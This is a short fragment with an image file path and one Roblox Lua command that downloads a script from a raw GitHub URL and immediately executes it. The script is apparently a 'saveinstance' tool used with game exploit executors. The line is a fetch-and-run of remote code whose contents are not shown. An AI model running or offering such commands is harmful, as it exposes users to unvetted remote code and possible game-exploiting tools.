 loadstring(game:HttpGet(('https://raw.githubusercontent.com/pilawsk/saveinstance.lua/refs/heads/main/New%20Text%20Document.txt'),true))()
